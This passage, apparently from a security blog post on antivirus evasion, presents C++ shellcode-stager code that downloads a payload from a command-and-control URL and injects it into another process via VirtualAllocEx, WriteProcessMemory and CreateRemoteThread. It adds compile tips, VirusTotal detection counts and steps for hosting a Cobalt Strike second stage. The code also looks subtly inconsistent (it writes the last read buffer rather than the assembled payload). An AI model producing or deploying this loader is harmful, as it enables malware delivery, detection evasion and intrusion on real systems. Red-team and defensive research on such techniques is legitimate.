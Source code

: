 ```c++
    char buff[461];
    unsigned long bytesRead;
    string s;
    URLOpenBlockingStreamA(0, c2URL, &stream, 0, 0);
    while (true) {
        stream->Read(buff, 461, &bytesRead);
        if (0U == bytesRead) {
            break;
        }
        s.append(buff, bytesRead);
    }
    memAddr = VirtualAllocEx(hProcess, NULL, dwSize,flAllocationType,flProtect);
    cout << "[+] Memory Allocated at:" << memAddr << "\n";
    
    WriteProcessMemory(hProcess, memAddr, buff, dwSize, &bytesOut);
    cout << "[+] Number of bytes written: " << bytesOut << "\n";

    CreateRemoteThread(hProcess, NULL, dwSize, (LPTHREAD_START_ROUTINE)memAddr, 0, 0, 0);
    cout << "[+] Thread Spawned, PID: " << NULL << "\n";
    stream->Release();
    return 0;
}
```
*The above code can be compiled with Visual Studio 2019 - You may encounter a complilation error; add the /sdl- flag to ignore the errors and to compile anyways*

In this run, only 3 Anti-Virus vendors picked up on the payload with no flags of Metasploit.

<img src="https://blog.spookysec.net/img/Pasted image 20220212224432.png">
https://www.virustotal.com/gui/file/ca2a3ee12e0909984c04e698ce55c4eb97627bfe8118e742b094f57ac0027788

**Bonus Round Part 2- Cobalt Strike!**

Using the same method to generate shellcode, we're going to host our "Second Stage" in Cobalt Strike, we can do so by going to Attacks -> Web Drive By -> Host Files.

It's also important to note that the shellcode generated is in Hex, you will have to decode the hex and store it as raw-byte values on the web server. We can use the same program above and just modify the payload size from 461 to 892 bytes.

<img src="https://blog.spookysec.net/img/Pasted image 20220213004719.png">
*Hosting a file with Cobalt Strike*

We can verify our script works by executing the file again by executing our file compiled code:
<img src="https://blog.spookysec.net/img/Pasted image 20220213005352.png">

Now we can upload to VT:

<img src="https://blog.spookysec.net/img/Pasted image 20220213005428.png">
https://www.virustotal.com/gui/file/5c57f6b7dd68a76340d88043f6702a0e33b50f06607ec18e0b594810748fb45a?nocache=1
